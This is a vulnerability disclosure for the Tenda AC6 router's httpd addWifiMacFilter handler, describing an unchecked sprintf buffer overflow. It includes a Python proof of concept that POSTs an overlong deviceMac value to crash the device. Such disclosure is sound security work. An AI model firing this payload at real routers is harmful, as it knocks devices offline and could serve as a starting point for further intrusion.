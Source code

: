 # Information



Vendor of the products:  Shenzhen Jixiang Tenda Technology Co., Ltd.

Vendor's website:  [Homepage_Tenda Global(English)](https://www.tendacn.com/)

Reported by:   b55t4ck(2640807724@qq.com),Wang JinShuai(3265296623@qq.com)

Affected products: Tenda  AC6

Affected firmware version: v2.0_V15.03.06.51

Firmware download address:  https://www.tendacn.com/material/show/103794



# Overview

Tenda AC6 is a wireless router from China's Tenda company.

During the analysis of the /bin/httpd binary file, it was discovered that in the addWifiMacFilter function, the parameters deviceId and deviceMac are directly accepted from client data through the websGetVar function without any length validation. This vulnerability allows users to construct overly long strings, causing program crashes and preventing normal operation. Additionally, attackers can craft carefully prepared payloads to achieve arbitrary command execution.

# Vulnerability details

During the analysis of the binary file /bin/httpd in IDA, it was found that the program retrieves values from user input through the webGetVar function, and then calls the sprintf function at line 33 to directly concatenate the user-input deviceMac and deviceId parameters into the mib_value variable. Since mib_value is a fixed-length array and the program lacks input length restrictions, this results in a buffer overflow vulnerability.

![image-20250831175447767](https://b55t4ck.oss-cn-shenzhen.aliyuncs.com/image/202508311754799.png)

Due to the absence of corresponding symbol tables and the target device, it is not possible to perform deeper debugging using GDB. Otherwise, it would be feasible to construct shellcode or ROP chains to achieve shell access, potentially causing more severe damage.

# POC

```python
from pwn import *
import requests

url = "http://192.168.1.100/goform/addWifiMacFilter"
cookie = {"Cookie": "password=b55t4ck"}


data = {
	"deviceId":b'b55t4ck',
	"deviceMac":cyclic(1024)
        }


headers = {
    "Content-Type": "application/x-www-form-urlencoded"
}


try:
    response = requests.post(url, cookies=cookie, data=data, headers=headers)
    response = requests.post(url, cookies=cookie, data=data, headers=headers)
    print(response.text)
except requests.exceptions.RequestException as e:
    print(f"Request failed: {e}")


```

# Effect Demonstration

After executing the corresponding Python script, the program exhibits a crash condition, with the final output segment displaying the following



![image-20250831180054581](https://b55t4ck.oss-cn-shenzhen.aliyuncs.com/image/202508311800620.png)